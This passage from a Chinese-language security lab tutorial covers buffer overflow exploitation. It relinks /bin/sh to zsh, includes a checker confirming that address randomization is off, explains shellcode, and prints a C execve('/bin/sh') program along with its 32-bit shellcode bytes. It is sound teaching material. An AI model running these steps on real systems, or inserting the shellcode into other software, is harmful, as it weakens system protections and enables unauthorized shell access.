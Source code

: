 ```
$ sudo su

$ cd /bin

$ rm sh

$ ln -s zsh sh

$ exit
```

3、输入命令“linux32”进入32位linux环境。此时你会发现，命令行用起来没那么爽了，比如不能tab补全了，所以输入“/bin/bash”使用bash：

![此处输入图片的描述](https://doc.shiyanlou.com/document-uid8797labid749timestamp1526527260881.png)

```checker
- name: check random
  script: |
    #!/bin/bash
    sysctl -a|grep kernel.randomize_va_space|grep 0
  error: 没有关闭地址空间随机化
- name: check link
  script: |
    #!/bin/bash
    ls -il /bin/sh|grep zsh
  error: /bin/sh 链接不对
```

###3.2 shellcode

一般情况下，缓冲区溢出会造成程序崩溃，在程序中，溢出的数据覆盖了返回地址。而如果覆盖返回地址的数据是另一个地址，那么程序就会跳转到该地址，如果该地址存放的是一段精心设计的代码用于实现其他功能，这段代码就是 shellcode。

观察以下代码：

```c
#include <stdio.h>
int main()
{
    char *name[2];
    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0], name, NULL);
}
```

本次实验的 shellcode，就是刚才代码的汇编版本：

```
\x31\xc0\x50\x68"//sh"\x68"/bin"\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```
进一步了解 shellcode 可参考 http://blog.binamuse.com/2013/01/about-shellcodes-in-c.html

###3.3 漏洞程序

在 `/home/shiyanlou/tmp` 目录下新建一个 `stack.c` 文件：
